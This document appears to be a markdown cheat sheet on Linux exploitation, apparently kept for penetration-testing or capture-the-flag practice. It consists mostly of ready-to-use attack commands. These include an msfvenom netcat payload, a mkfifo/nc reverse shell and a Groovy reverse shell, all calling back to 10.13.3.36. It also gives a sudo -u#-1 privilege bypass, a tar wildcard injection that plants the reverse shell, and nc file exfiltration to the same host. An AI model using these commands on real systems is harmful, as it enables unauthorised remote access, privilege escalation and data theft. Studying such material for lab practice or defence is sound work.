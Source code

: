 # Linux Exploitation

## Enumerate Linux Machine
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite): 
    * `./linpeas.sh | tee enum.txt` 
    * `less -r enum.txt`

## Find Interesting Files
* Find File With uuid Permission
    * `find / -perm /u=s 2>/dev/null`
    * `find / -perm /4000 2>/dev/null`
* Files With Capabilities
    * `getcap -r / 2>/dev/null`


## Generate reverse ncat
* `msfvenom -p cmd/unix/reverse_netcat lhost=10.13.3.36 lport=4444`
    * `mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`
* Listener: `nc -klvnp 4444`
    * k - Wait for more connections after completion
    * l - Listen for connection
    * v - Verbose
    * n - Don't do DNS lookup
    * p - Port to listen to

## Reverse Shells

### PHP Reverse Shells
* phpbash (webshell): https://github.com/Arrexel/phpbash
* php-reverse-shell.php : https://github.com/pentestmonkey/php-reverse-shell
* #!/usr/bin/env php

### Groovy Reverse Shell
```groovy
String host="10.13.3.36";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Stabilisation of Shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```
CTRL-z
```sh
stty raw -echo;fg
```

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


## sudo
* List sudo Permisions
    * `sudo -l`
* Abuse sudo with (ALL, !root)
    * `sudo -u#-1`

## Abuse tar With Wildcard *
```sh
echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## Using nc To Transfer Files

On the receiving machine
```bash
nc -l -p 1234 > file
```
On the sending machine, open the connection and send the file.

```bash
nc -w 3 10.13.3.36 1234 < file
```